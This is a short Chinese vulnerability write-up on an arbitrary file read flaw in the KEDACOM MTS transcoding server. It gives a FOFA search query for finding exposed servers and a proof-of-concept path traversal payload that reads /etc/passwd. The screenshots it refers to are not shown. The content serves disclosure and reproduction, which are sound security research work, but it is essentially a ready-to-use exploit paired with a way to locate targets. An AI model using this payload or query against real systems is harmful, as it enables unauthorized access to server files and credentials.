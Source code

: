 # 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

<a-checkbox checked>MTS转码服务器</a-checkbox></br>

## FOFA

<a-checkbox checked>app="MTS转码服务器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639570369459-12a283d6-4165-44c6-9618-0943fb751a91.png)

验证POC

```python
/../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1629778524057-9426a92c-d716-45fa-bd9b-6d82e814f791.png)